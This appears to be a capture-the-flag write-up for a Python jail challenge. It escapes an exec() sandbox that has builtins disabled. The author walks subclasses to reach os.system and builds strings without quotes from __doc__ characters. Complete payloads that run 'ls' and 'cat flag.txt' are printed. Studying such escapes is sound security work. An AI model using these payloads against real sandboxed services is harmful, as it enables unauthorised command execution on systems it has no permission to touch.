



The extraterrestrials have upgraded their authentication system and now only them are able to pass. Did you manage to learn their language well enough in order to bypass the the authorization check?
This is an nc challenge without a source code.
When we connect we have some sort of a “shell”. We can try to input some special character like $.
3.8.9 (default, Apr 15 2021, 05:07:04)
[GCC 10.2.1 20201203]
[*] Only are allowed!
>>> $
Traceback (most recent call last):
File "/app/build_yourself_in.py", line 16, in <module>
main()
File "/app/build_yourself_in.py", line 13, in main
exec(text, {'__builtins__': None, 'print':print})
File "<string>", line 1
$
^
SyntaxError: invalid syntax
The program crashed and we see we are inside and exec() function with __builtins__ disabled which will complicate things. Because of this we cannot use any builtin python methods.
We can use python introspection to get all available classes from the interpreter.
>>> print(().__class__.__base__.__subclasses__())
[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, <class 'int'>, <class 'bytearray'>, <class 'bytes'>, <class 'list'>, <class 'NoneType'>, <class 'NotImplementedType'>, <class 'traceback'>, <class 'super'>, <class 'range'>,
[REDACTED]
We need a class that has a reference to __import__ or has a reference to system() function so we can exec OS commands. Class catch_warnings has a reference to __import__ but the this current interpreter doesn’t have a reference to this class. There is another class os._wrap_close, which has a reference to __globals__['system'] with which we can execute commands. We can find this class with this command (props to HackTricks).
[ x.__init__.__globals__ for x in ().__class__.__base__.__subclasses__() if x.__name__ == '_wrap_close' ][0]['system']('ls')
With this piece of code we will loop the list of classes and find the class called _wrap_close and execute ls.

We cannot use quotes. Luckily, I wrote a script that can generate string literals in python without using ' or ". My script is here. We will use it to generate string literals for strings _wrap_close, system and ls. Be sure to use python3 with the script because the challenge uses python3 also.
$ python3 py-string-assembler.py -s "_wrap_close"
().__class__.__base__.__subclasses__()[0].__doc__[11]+().__class__.__base__.__subclasses__()[0].__doc__[99]+().__class__.__base__.__subclasses__()[0].__doc__[13]+().__class__.__base__.__subclasses__()[0].__doc__[16]+().__class__.__base__.__subclasses__()[0].__doc__[2]+().__class__.__base__.__subclasses__()[0].__doc__[11]+().__class__.__base__.__subclasses__()[0].__doc__[9]+().__class__.__base__.__subclasses__()[4].__doc__[174]+().__class__.__base__.__subclasses__()[0].__doc__[5]+().__class__.__base__.__subclasses__()[0].__doc__[23]+().__class__.__base__.__subclasses__()[0].__doc__[3]
$ python3 py-string-assembler.py -s "system" ().__class__.__base__.__subclasses__()[0].__doc__[23]+().__class__.__base__.__subclasses__()[0].__doc__[1]+().__class__.__base__.__subclasses__()[0].__doc__[23]+().__class__.__base__.__subclasses__()[0].__doc__[0]+().__class__.__base__.__subclasses__()[0].__doc__[3]+().__class__.__base__.__subclasses__()[0].__doc__[17]
$ python3 py-string-assembler.py -s "ls"
().__class__.__base__.__subclasses__()[4].__doc__[174]+().__class__.__base__.__subclasses__()[0].__doc__[23]
Substitute the output for the strings and we have a working payload.
Payload for ls.
[ x.__init__.__globals__ for x in ().__class__.__base__.__subclasses__() if x.__name__ == ().__class__.__base__.__subclasses__()[0].__doc__[11]+().__class__.__base__.__subclasses__()[0].__doc__[99]+().__class__.__base__.__subclasses__()[0].__doc__[13]+().__class__.__base__.__subclasses__()[0].__doc__[16]+().__class__.__base__.__subclasses__()[0].__doc__[2]+().__class__.__base__.__subclasses__()[0].__doc__[11]+().__class__.__base__.__subclasses__()[0].__doc__[9]+().__class__.__base__.__subclasses__()[4].__doc__[174]+().__class__.__base__.__subclasses__()[0].__doc__[5]+().__class__.__base__.__subclasses__()[0].__doc__[23]+().__class__.__base__.__subclasses__()[0].__doc__[3] ][0][().__class__.__base__.__subclasses__()[0].__doc__[23]+().__class__.__base__.__subclasses__()[0].__doc__[1]+().__class__.__base__.__subclasses__()[0].__doc__[23]+().__class__.__base__.__subclasses__()[0].__doc__[0]+().__class__.__base__.__subclasses__()[0].__doc__[3]+().__class__.__base__.__subclasses__()[0].__doc__[17]](().__class__.__base__.__subclasses__()[4].__doc__[174]+().__class__.__base__.__subclasses__()[0].__doc__[23])

Now just generate a string cat flag.txt from the script and substitute it in payload. Payload for cat flag.txt.
[ x.__init__.__globals__ for x in ().__class__.__base__.__subclasses__() if x.__name__ == ().__class__.__base__.__subclasses__()[0].__doc__[11]+().__class__.__base__.__subclasses__()[0].__doc__[99]+().__class__.__base__.__subclasses__()[0].__doc__[13]+().__class__.__base__.__subclasses__()[0].__doc__[16]+().__class__.__base__.__subclasses__()[0].__doc__[2]+().__class__.__base__.__subclasses__()[0].__doc__[11]+().__class__.__base__.__subclasses__()[0].__doc__[9]+().__class__.__base__.__subclasses__()[4].__doc__[174]+().__class__.__base__.__subclasses__()[0].__doc__[5]+().__class__.__base__.__subclasses__()[0].__doc__[23]+().__class__.__base__.__subclasses__()[0].__doc__[3] ][0][().__class__.__base__.__subclasses__()[0].__doc__[23]+().__class__.__base__.__subclasses__()[0].__doc__[1]+().__class__.__base__.__subclasses__()[0].__doc__[23]+().__class__.__base__.__subclasses__()[0].__doc__[0]+().__class__.__base__.__subclasses__()[0].__doc__[3]+().__class__.__base__.__subclasses__()[0].__doc__[17]](().__class__.__base__.__subclasses__()[0].__doc__[9]+().__class__.__base__.__subclasses__()[0].__doc__[16]+().__class__.__base__.__subclasses__()[0].__doc__[0]+().__class__.__base__.__subclasses__()[0].__doc__[20]+().__class__.__base__.__subclasses__()[4].__doc__[103]+().__class__.__base__.__subclasses__()[4].__doc__[174]+().__class__.__base__.__subclasses__()[0].__doc__[16]+().__class__.__base__.__subclasses__()[4].__doc__[16]+().__class__.__base__.__subclasses__()[4].__doc__[127]+().__class__.__base__.__subclasses__()[0].__doc__[0]+().__class__.__base__.__subclasses__()[4].__doc__[5]+().__class__.__base__.__subclasses__()[0].__doc__[0])

CHTB{n0_j4il_c4n_h4ndl3_m3!}